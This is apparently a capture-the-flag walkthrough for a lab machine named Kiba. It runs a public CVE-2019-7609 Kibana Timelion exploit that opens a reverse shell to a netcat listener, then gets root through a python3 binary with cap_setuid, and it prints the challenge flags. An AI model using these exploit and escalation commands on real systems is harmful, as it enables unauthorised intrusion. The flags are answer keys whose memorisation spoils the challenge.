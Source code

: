 # kiba

Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.

# [Task 1] Flags

Are you able to complete the challenge? The machine may take up to 7 minutes to boot and configure

## #1 - What is the vulnerability that is specific to programming languages with prototype-based inheritance?

Answer: `prototype pollution`

## #2 - What is the version of visualization dashboard installed in the server?

Scanning the target with Nmap reveals several open ports, 1 of which hosting Kibana (port 5601).

~~~
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     undefined: undefined
|     Date: Thu, 17 Sep 2020 18:55:56 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     undefined: undefined
|     Date: Thu, 17 Sep 2020 18:55:50 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     undefined: undefined
|     Date: Thu, 17 Sep 2020 18:55:53 GMT
|_    {"statusCode":404,"error":"Not Found"}
~~~

Connect to http://10.10.113.146:5601 and go to "management". The version of Kibana is displayed on the top left corner.

Answer: `6.5.4`

## #3 - What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

Answer: `CVE-2019-7609`

## #4 - Compromise the machine and locate user.txt

Start a listener (`rlwrap nc -nlvp 4444`) and run the exploit:

~~~
kali@kali:/data/kiba/files$ git clone https://github.com/LandGrey/CVE-2019-7609.git
kali@kali:/data/kiba/files$ cd CVE-2019-7609
kali@kali:/data/kiba/files/CVE-2019-7609$ python CVE-2019-7609-kibana-rce.py -u http://10.10.113.146:5601 -host 10.8.50.72 -port 4444 --shell
[+] http://10.10.113.146:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
[+] reverse shell completely! please check session on: 10.8.50.72:4444
~~~

Now we have a shell:

~~~
kali@kali:/data/kiba$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.113.146] 45840
bash: cannot set terminal process group (980): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Mar 31 10:41 .
drwxr-xr-x 22 root root 4096 Mar 31 17:13 ..
drwxr-xr-x  6 kiba kiba 4096 Mar 31 22:59 kiba
kiba@ubuntu:/home/kiba/kibana/bin$ cat /home/kiba/user.txt
cat /home/kiba/user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}
~~~

## #5 - Capabilities is a concept that provides a security system that allows "divide" root privileges into different values

No answer here

## #6 - How would you recursively list all of these capabilities?

Answer: `getcap -r /`

## #7 - Escalate privileges and obtain root.txt

Checking the capabilities reveals a custom python3 installation in `/home/kiba/.hackmeplease/`:

~~~
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
~~~

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities) what we can do with `python` related to capabilities reveals that we can escalate our privileges to root:

~~~
kiba@ubuntu:/home/kiba/kibana/bin$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<please/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'         
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
~~~

Let's get a better shell and get the root flag:

~~~
SHELL=/bin/bash script -q /dev/null
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@ubuntu:/home/kiba/kibana/bin# cat /root/root.txt
cat /root/root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
~~~

Answer: `THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}`

